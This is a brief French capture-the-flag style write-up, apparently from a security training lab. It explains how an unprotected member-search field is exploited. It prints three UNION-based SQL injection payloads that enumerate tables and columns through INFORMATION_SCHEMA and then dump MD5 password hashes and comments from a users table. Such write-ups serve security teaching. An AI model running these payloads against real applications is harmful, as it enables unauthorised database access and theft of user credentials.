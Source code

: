 Sur la page de recherche de membre, l'input n'est pas protégé contre les injections SQL.
La commande `1 UNION SELECT table_name, table_schema FROM INFORMATION_SCHEMA.COLUMNS --` permet de récupérer la liste des tables ainsi que la DB correspondante.
Une seconde requete `1 UNION SELECT table_name, column_name FROM INFORMATION_SCHEMA.COLUMNS  --` liste toutes les colonnes.
A partir de ces informations, nous allons requêter dans la db Member_Sql_Injection, la table users : `1 UNION SELECT countersign, Commentaires FROM users --`
Nous obtenons des mots de passe hasher en MD5, et des commentaires, dont l'un donne des instructions pour obtenir le flag.